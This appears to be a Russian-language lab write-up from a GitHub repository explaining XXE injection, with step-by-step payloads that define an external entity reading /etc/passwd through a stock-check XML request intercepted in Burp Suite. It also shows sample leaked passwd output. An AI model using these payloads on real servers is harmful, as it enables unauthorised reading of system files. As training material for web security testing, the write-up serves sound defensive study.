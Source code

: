 # Использование XXE для извлечения файлов 🚨

XXE (XML External Entity) — это уязвимость, позволяющая злоумышленникам извлекать файлы с сервера через манипуляцию XML-кодом. В этом руководстве мы разберём пошаговый пример эксплуатации XXE для получения файла `/etc/passwd`. 💡

## Шаги выполнения атаки

### 1. Подготовка XML для атаки 📝

Чтобы выполнить XXE-инъекцию:

1. **Добавьте или измените DOCTYPE**, чтобы определить внешнюю сущность с указанием пути к целевому файлу.
2. **Измените данные в XML**, чтобы внедрить внешнюю сущность в нужное значение.

Пример исходного XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>381</productId>
</stockCheck>
```

Полезная нагрузка XXE для извлечения файла `/etc/passwd`:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```

### 2. Выполнение атаки 💻

**Шаг 1**. Определите DOCTYPE и внешнюю сущность:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

**Шаг 2**. Используйте внешнюю сущность в `productId`:
```xml
<productId>&xxe;</productId>
```

**Результат**: Ответ приложения может выглядеть так:
```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Пример лабораторной работы 🛠️

### 1. Начало работы
Нас встречает список товаров:

![Список товаров](https://github.com/user-attachments/assets/7732ce0b-262f-4416-aebe-a7af11b5d714)

---

### 2. Анализ запроса
Переходим на любой из товаров, включаем прокси (например, Burp Suite), и нажимаем на кнопку **"Проверить наличие на складе"**:

![Кнопка проверки](https://github.com/user-attachments/assets/be6726cc-64f5-4093-b301-7923e3d88d9c)

---

### 3. Перехват запроса
В **HTTP History** находим POST-запрос, пересылаем его в **Repeater** и анализируем. Видим, что проверка наличия осуществляется через XML:

![POST-запрос](https://github.com/user-attachments/assets/028c10b5-e477-45f5-8101-8a056ed72651)

---

### 4. Внедрение полезной нагрузки 🚀

Вставляем следующий код между декларацией XML и элементом `stockCheck`:
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

Изменяем значение `productId` на `&xxe;`:

![Внедрение XXE](https://github.com/user-attachments/assets/22cbd669-befa-4e8b-9250-da047534f851)

---

### 5. Результат
После отправки запроса получаем содержимое файла `/etc/passwd` в ответе:

![Вывод /etc/passwd](https://github.com/user-attachments/assets/7c506f3a-d652-4bad-820c-2b61fa561bf5)

---

## Советы для тестирования 🔍

- **Проверяйте каждый узел XML** на возможность внедрения сущностей.
- Убедитесь, что сервер возвращает результат в ответе.
- Используйте прокси-инструменты (например, Burp Suite) для анализа и изменения запросов.
